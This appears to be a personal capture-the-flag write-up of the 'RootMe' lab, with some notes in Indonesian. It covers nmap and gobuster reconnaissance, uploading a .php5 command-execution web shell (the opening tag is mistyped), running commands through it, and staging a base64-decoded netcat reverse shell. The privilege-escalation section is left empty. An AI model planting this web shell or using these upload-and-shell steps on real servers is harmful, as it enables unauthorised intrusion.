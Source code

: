 # root me

## task 1 deploy the machine
- deploy the machine
- ip = 10.10.1.253

## task 2 reconnaissance
- Scan the machine, how many ports are open? 2
    - nmap 10.10.1.253
- What version of Apache is running? 2.4.29
    - nmap -sC -sV 10.10.1.253 => untuk melihat 
- What service is running on port 22? ssh
- Find directories on the web server using the GoBuster too? /panel/
    - gobuster dir -u http://10.10.1.253/ -w ~/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt

## Task 3  Getting a shell
- Find a form to upload and get a reverse shell, and find the flag.
    - open http://10.10.1.253/panel
    - create some file with diference extension
        - make file sh.php5
            ```
            <php echo system($_GET['c']); ?>
            ```
        - open http://10.10.1.253/uploads
        - click sh.php5
        - open http://10.10.1.253/uploads/sh.php5?c=ls
        - open open http://10.10.1.253/uploads/sh.php5?c=ls -la /var/www/html/
        - open open http://10.10.1.253/uploads/sh.php5?c=cat /var/www/html/index.php | base64
    - open cyberchef
    - open revshell
        - and which nc mkfifo
        - and go cyberchef and copy to base 64
        - after copy 
        - add echo base64
        - add in base64 and | base64 -d > shell.sh
    - and add in url http://10.10.1.253/uploads/sh.php5?c=echo base64 | base64 -d > shell.sh
        - ls
        - cat shell.sh
        - chmod +x shell.sh
        - chmod 777 shell.sh
    - and listen
        - 
    - user.txt

## Task 4  Privilege escalation
- Search for files with SUID permission, which file is weird?
    -
- Find a form to escalate your privileges.
    -
- root.txt
    -

# hands on lab
- nmap -sC -sV 10.10.1.253 => untuk melihat 
- gobuster dir -u http://10.10.1.253/ -w ~/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt 
- http://10.10.1.253/uploads
- http://10.10.1.253/css
- http://10.10.1.253/js
- http://10.10.1.253/panel
- http://10.10.1.253/server-status
